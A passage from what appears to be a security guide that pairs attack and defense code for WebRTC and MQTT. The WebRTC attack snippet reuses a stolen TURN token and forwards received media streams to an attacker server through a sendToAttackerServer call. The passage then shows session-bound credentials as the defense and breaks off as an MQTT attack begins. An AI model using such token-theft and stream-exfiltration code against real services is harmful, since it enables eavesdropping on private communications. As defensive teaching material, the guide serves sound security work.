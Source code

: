 };
```

### WebRTC Unbound Token Attack
Attack Implementation:
```
// Attacker steals/reuses WebRTC tokens across sessions
const stolenToken = 'eyJhbGciOiJIUzI1NiJ9.eyJyb29tIjoicHVibGljLXJvb20ifQ...';

const pc = new RTCPeerConnection({
    iceServers: [{
        urls: 'turn:turn.example.com:3478',
        username: 'stolen_user',
        credential: stolenToken
    }]
});

pc.ontrack = (event) => {
    const mediaStream = event.streams[0];
    sendToAttackerServer(mediaStream);
};
```
Defense Implementation:
```
const jwt = require('jsonwebtoken');
const crypto = require('crypto');

// Generate bound WebRTC credentials
function generateBoundCredentials(userId, roomId, sessionId) {
    const timestamp = Math.floor(Date.now() / 1000);
    const expiry = timestamp + 3600;
    
    const payload = {
        userId, roomId, sessionId,
        iat: timestamp, exp: expiry,
        fingerprint: crypto.createHash('sha256')
            .update(userId + roomId + sessionId + process.env.SECRET_KEY)
            .digest('hex')
    };
    
    return {
        username: `${timestamp}:${userId}`,
        credential: jwt.sign(payload, process.env.TURN_SECRET),
        ttl: 3600
    };
}
```

### MQTT Security: Attack and Defense Techniques
Attack Implementation:
```
const mqtt = require('mqtt');

// Connect to poorly secured MQTT broker
const client = mqtt.connect('mqtt://insecure-broker.com:1883');

